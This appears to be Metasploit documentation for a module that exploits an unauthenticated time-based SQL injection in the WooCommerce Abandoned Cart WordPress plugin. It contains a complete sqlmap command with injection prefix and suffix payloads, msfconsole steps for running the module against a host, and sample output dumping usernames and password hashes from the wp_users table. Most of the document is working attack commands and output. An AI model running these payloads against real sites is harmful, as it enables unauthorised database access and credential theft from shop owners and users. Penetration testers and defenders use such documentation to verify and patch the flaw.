 ## Vulnerable Application

Abandoned Cart, a plugin for WordPress which extends the WooCommerce plugin,
prior to 5.8.2 is affected by an unauthenticated SQL injection via the
billing_first_name parameter of the save_data AJAX call.  A valid
wp_woocommerce_session cookie is required, which has at least one item in the
cart.

The plugin can be downloaded from
[here](https://downloads.wordpress.org/plugin/woocommerce-abandoned-cart.5.8.1.zip)

You'll need to first install WooCommerce and set up a shop with at least one item.
Next, install and activate Abandoned Cart.

This module slightly replicates sqlmap running as:

```
sqlmap -u http://local.target/wp-admin/admin-ajax.php --cookie='[cookies content here]' --method='POST' --data='billing_first_name=wpdeeply&billing_last_name=wpdeeply&billing_company=wpdeeply&billing_address_1=wpdeeply&billing_address_2=wpdeeply&billing_city=wpdeeply&billing_state=wpdeeply&billing_postcode=123234&billing_country=GB&billing_phone=12324&billing_email=wpdeeply%40protonmail.com&order_notes=&wcal_guest_capture_nonce=[nonce-value]&action=save_data' -p billing_first_name --prefix="', '', '','', '',( TRUE " --suffix=")) -- wpdeeply" --dbms mysql --technique=T --time-sec=1
```

## Verification Steps

1. Install the plugin on wordpress
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_abandoned_cart_sqli`
1. Do: `set rhosts [ip]`
1. Do: `set cookie [cookie]`
1. Do: `run`
1. You should get username and password hashes.

## Options

### ACTION: List Users

This action lists `COUNT` users and password hashes.

### COOKIE

A valid `wp_woocommerce_session` cookie, which has at least 1 item in the cart.  An example is:
`wp_woocommerce_session_d2959e58288b6133e71de74309fcabfb=257056469b604b6a005c25ea293c83f9%7C%7C1609808347%7C%7C1609804747%7C%7C499137359f4d8c16f125fba6cf58ff57`.

### COUNT

If Action `List Users` is selected (default), this is the number of users to enumerate.
The larger this list, the more time it will take.  Defaults to `1`.

## Scenarios

### Wordpress 5.4.2 with WooCommerce 4.8.0 and Abandoned Cart 5.8.1 on Ubuntu 20.04 using MariaDB 10.3.22

```
resource (abandoned.rb)> use auxiliary/scanner/http/wp_abandoned_cart_sqli
resource (abandoned.rb)> set rhosts 111.111.1.111
rhosts => 111.111.1.111
resource (abandoned.rb)> set verbose true
verbose => true
resource (abandoned.rb)> set cookie "wp_woocommerce_session_d2959e58288b6133e71de74309fcabfb=257056469b604b6a005c25ea293c83f9%7C%7C1609808347%7C%7C1609804747%7C%7C499137359f4d8c16f125fba6cf58ff57"
cookie => wp_woocommerce_session_d2959e58288b6133e71de74309fcabfb=257056469b604b6a005c25ea293c83f9%7C%7C1609808347%7C%7C1609804747%7C%7C499137359f4d8c16f125fba6cf58ff57
resource (abandoned.rb)> set count 3
count => 3
resource (abandoned.rb)> run
[*] Checking /wp-content/plugins/woocommerce-abandoned-cart/readme.txt
[*] Found version You in the plugin
[+] Vulnerable version of Abandoned Cart for WooCommerce detected
[*] Nonce: b56eb3a2cb
[*] Enumerating Usernames and Password Hashes
[*] {SQLi} Executing (select group_concat(PghfuFZ) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) PghfuFZ from wp_users limit 3) eOMLbNMh)
[*] {SQLi} Time-based injection: expecting output of length 124
[+] wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1
 editor      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/wp_abandoned_cart_sqli) > creds
Credentials
===========

host  origin         service  public  private                             realm  private_type        JtR Format
----  ------         -------  ------  -------                             -----  ------------        ----------
      111.111.1.111           admin2  $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1         Nonreplayable hash  phpass
      111.111.1.111           editor  $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/         Nonreplayable hash  phpass
      111.111.1.111           admin   $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0         Nonreplayable hash  phpass
```
